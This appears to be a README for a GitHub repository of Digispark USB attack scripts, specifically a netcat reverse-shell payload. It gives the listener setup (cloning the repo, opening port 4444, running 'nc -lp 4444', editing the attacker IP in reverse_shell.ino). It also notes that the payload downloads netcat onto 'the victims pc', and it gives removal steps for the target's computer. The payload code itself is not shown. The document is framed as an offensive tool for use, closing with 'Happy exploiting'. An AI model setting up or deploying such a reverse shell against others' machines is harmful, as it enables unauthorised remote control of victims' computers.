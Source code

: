 ### Note the link in the script to download netcat on the victims pc will expire



## How to use:

`git clone https://github.com/Samuel20354/Digispark_scripts.git`


`cd Digispark_scripts/Reverse Shell (NetCat)`


`sudo ufw allow 4444`


`nc -lp 4444`


Change the IP on line 17 to your local IP in `reverse_shell.ino` file, then upload to your digispark. Done! Happy exploiting.

## How to remove:

Go to `C:\` and on windows use `rmdir /S /Q win/`


Then reboot the target's compueter

Done!
